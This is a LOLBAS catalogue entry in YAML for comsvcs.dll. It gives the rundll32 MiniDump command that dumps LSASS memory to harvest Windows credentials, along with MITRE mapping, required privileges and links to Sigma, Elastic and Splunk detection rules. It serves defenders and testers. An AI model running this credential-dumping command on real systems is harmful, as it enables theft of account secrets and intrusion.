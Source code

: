 ```yaml
---
Name: Comsvcs.dll
Description: COM+ Services
Author: LOLBAS Team
Created: 2019-08-30
Commands:
  - Command: rundll32 C:\windows\system32\comsvcs.dll MiniDump {LSASS_PID} dump.bin full
    Description: Calls the MiniDump exported function of comsvcs.dll, which in turns calls MiniDumpWriteDump.
    Usecase: Dump Lsass.exe process memory to retrieve credentials.
    Category: Dump
    Privileges: SYSTEM
    MitreID: T1003.001
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: c:\windows\system32\comsvcs.dll
Code_Sample:
  - Code: https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_rundll32_process_dump_via_comsvcs.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_access/proc_access_win_lsass_dump_comsvcs_dll.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/5bdf70e72c6cd4547624c521108189af994af449/rules/windows/credential_access_cmdline_dump_tool.toml
  - Splunk: https://github.com/splunk/security_content/blob/86a5b644a44240f01274c8b74d19a435c7dae66e/detections/endpoint/dump_lsass_via_comsvcs_dll.yml
Resources:
  - Link: https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/
Acknowledgement:
  - Person: modexp
---
```

